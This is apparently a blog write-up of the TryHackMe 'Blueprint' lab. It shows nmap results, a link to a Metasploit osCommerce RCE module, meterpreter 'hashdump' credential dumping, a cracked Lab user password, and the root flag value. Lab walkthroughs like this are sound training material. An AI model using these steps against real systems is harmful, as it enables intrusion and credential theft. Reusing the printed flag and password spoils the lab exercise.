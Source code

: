 ```yaml
---
title: "Blueprint - TryHackMe"
author: Ludovic COULON
date: 2020-05-28
hero: ./images/hero.jpeg
excerpt: "Writeup for the Blueprint on TryHackMe"
---
```


[TryHackMe | Blueprint](https://tryhackme.com/room/blueprint)

<div className="Image__Small">
  <img src="https://webstockreview.net/images/win-clipart-blueprint-1.png" alt="blog_image" />
</div>

Do you have what is takes to hack into this Windows Machine?

`It might take around 3-4 minutes for the machine to boot.`

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.80.61
```

```bash
PORT      STATE SERVICE     REASON  VERSION
135/tcp   open  msrpc       syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn syn-ack Windows 7 Home Basic 7601 Service Pack 1 netbios-ssn

443/tcp   open  ssl/http    syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

3306/tcp  open  mysql       syn-ack MariaDB (unauthorized)

8080/tcp  open  http        syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc       syn-ack Microsoft Windows RPC
49153/tcp open  msrpc       syn-ack Microsoft Windows RPC
49154/tcp open  msrpc       syn-ack Microsoft Windows RPC
49158/tcp open  msrpc       syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:05:ad:f5:e5:be (unknown)
| Names:
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   BLUEPRINT<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 05 ad f5 e5 be 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41714/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 54382/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 22612/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23038/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-28T19:03:48+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-28T18:03:50
|_  start_date: 2020-05-28T18:03:02
```

<div className="Image__Small">
  <img src="https://imgur.com/rUJpFMM.png" alt="blog_image" />
</div>

[osCommerce 2.3.4.1 - Remote Code Execution by DanielRTeixeira · Pull Request #9821 · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9821/files/b5681cb954bed6a1e64cf6708cbd5a937e596f5b)

<div className="Image__Small">
  <img src="https://imgur.com/nrRw0SU.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/lecapcm.png" alt="blog_image" />
</div>

### #1 "Lab" user NTML hash decrypted

```bash
meterpreter > run hashdump
```

<div className="Image__Small">
  <img src="https://imgur.com/J5xg1PX.png" alt="blog_image" />
</div>

```bash
googleplus
```

### #2 root.txt

```bash
meterpreter > shell
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> whoami
nt authority\system
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> cd C:\User\Administrator\Desktop
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
